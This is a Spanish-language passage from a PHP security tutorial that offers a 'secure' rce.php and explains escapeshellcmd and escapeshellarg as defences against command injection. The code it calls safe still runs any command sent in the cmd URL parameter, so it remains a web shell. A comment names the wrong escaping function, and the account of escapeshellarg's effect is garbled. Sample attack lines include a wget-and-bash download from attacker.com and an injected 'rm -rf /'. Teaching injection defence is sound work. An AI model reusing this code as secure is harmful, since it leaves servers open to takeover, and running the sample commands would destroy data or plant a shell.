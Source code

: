 Código seguro (rce.php con escapes para argumentos)

~~~
<?php
if (isset($_GET['cmd'])) {
    // Obtener el comando de la URL
    $cmd = $_GET['cmd'];

    // Usar escapeshellarg para proteger la entrada
    $cmd_safe = escapeshellcmd($cmd);

    // Ejecutar el comando de manera segura
    $output = shell_exec($cmd_safe);
    if (empty($output)) {
            echo "Comando no permitido.";
    } else {
        // Mostrar la salida de forma segura
        echo "<pre>" . htmlspecialchars($output) . "</pre>";
    }
}
?>
~~~

- Escapa caracteres especiales con escapeshellcmd() para mayor seguridad.

> Si contienen caracteres especiales, exec no va a realizar ninguna consulta, por lo que comprobamos y mostramos aviso de error.
>
> Si queremos que sólo se utilicen comandos simples sin argumentos y sin concatenar, podemos añadir un paso de seguridad con escapeshellarg(). Cambiamos la línea:

~~~
    $cmd_safe = escapeshellarg($cmd);
~~~

Beneficios:

- escapeshellarg() protege argumentos, evitando que se concatenen con ;, &&, |.

- Evita inyección de comandos (wget http://attacker.com/shell.sh && bash shell.sh).

- Mayor flexibilidad, pero más seguro que la ejecución directa de shell_exec().

Ejemplo: Si alguien intenta enviar:

~~~
http://localhost/rce.php?cmd=ping 8.8.8.8; rm -rf /
~~~

La función **escapeshellarg()** convertirá la entrada en:  'ping 8.8.8.8; rm -rf/), eliminará todo el comando y no ejecuta nada. Por eso controlamos cadena vacía.

![](images/rce9.png)

**Deshabilitar shell_exec() en PHP**

Si no se necesita ejecución de comandos en todo el servidor, deshabilitar las funciones peligrosas en php.ini.
